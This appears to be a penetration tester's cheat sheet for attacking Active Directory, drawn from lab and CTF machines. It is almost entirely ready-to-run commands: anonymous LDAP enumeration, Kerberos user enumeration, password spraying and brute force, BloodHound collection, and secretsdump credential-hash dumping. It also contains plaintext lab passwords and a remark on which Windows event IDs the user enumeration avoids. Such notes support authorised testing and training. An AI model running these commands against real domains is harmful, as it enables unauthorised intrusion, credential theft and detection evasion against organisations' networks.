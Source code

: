 ### Enumeration
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
```
Extract all info under dn:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec"

Extract description:
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep description

Extract domain password policy:
ldapsearch -x -H ldap://INLANEFREIGHT.LOCAL  -D '' -w '' -b "DC=INLANEFREIGHT,DC=LOCAL" | grep -m 1 -B 10 pwdHistoryLength

Extract naming context:
ldapsearch -H ldap://192.168.151.122 -x -s base namingcontexts

Extract all info:
ldapsearch -H ldap://10.10.11.187 -x -s base

Nmap auto enum:
nmap -n -sV --script "ldap* and not brute" <IP> #Using anonymous credentials

enum4linux -a -v ip
```
### User enumeration
kerbrute uses Kerberos authentication to test credentials against the DC  
Using kerbrute = nxc ldap ip -u '' -p '' -k
```
./kerbrute_linux_amd64 userenum -d lab.ropnop.com --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```
This method doesn't generate Windows event ID 4625: An account failed to log on, but does generate event ID 4768: A Kerberos authentication ticket (TGT) was requested
```
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
```
rpcclient -U "" -N 172.16.5.5
enumdomusers
```
```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
ldapsearch -x -H ldap://192.168.151.122 -D '' -w '' -b "DC=hutch,DC=offsec" | grep sAMAccountName
```
### PasswordSpray
```
./kerbrute_linux_amd64 passwordspray --dc 10.10.11.60 -d frizz.htb userlist "Welcome1!" -v
```
### Password Brute-force
```
./kerbrute bruteuser --dc 10.10.11.60 -d frizz.htb pass_file M.SchoolBus -v
```
### If you have valid credentials to login into the LDAP server, you can dump all the information about the Domain Admin using:
```
pip3 install ldapdomaindump 
ldapdomaindump <IP> [-r <IP>] -u '<domain>\<username>' -p '<password>' [--authtype SIMPLE] --no-json --no-grep [-o /path/dir]
```
```
If you find something saying that the "bind must be completed" means that the credentials are incorrect.

You can extract everything from a domain using:

Copy
ldapsearch -x -H ldap://10.10.10.192 -b "DC=BLACKFIELD,DC=local" -D 'support@blackfield.local' -w '#00^BlackKnight'
-x Simple Authentication
-H LDAP Server
-D My User
-w My password
-b Base site, all data from here will be given
```
### Brute-force
```
nmap --script ldap-brute -p 389 <IP>
```
### Domain Info 
```
bloodhound-python -ns 192.168.219.21 -d nagoya-industries.com -u 'Fiona.Clark' -p 'Summer2023' -c all
sudo proxychains4 -f /etc/proxychains4.conf bloodhound-python -ns 10.10.179.140 -d oscp.exam -u 'web_svc' -p 'Diamond1' -c all --dns-tcp
```
### DCSyn
```
impacket-secretsdump -sam SAM(local SAM file) -system SYSTEM(local SYSTEM file) local
impacket-secretsdump celia.almeda:7k8XHk3dMtmpnC7@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt
impacket-secretsdump celia.almeda@10.10.96.142 -sam SAM -system SYSTEM -outputfile /home/kali/Desktop/admin_hash.txt -hashes lm:nt

NTDS.DIT Secrets and Kerberos Key:
impacket-secretsdump 'htb.local'/'venom':'newP@ssword2022'@10.10.10.161
```
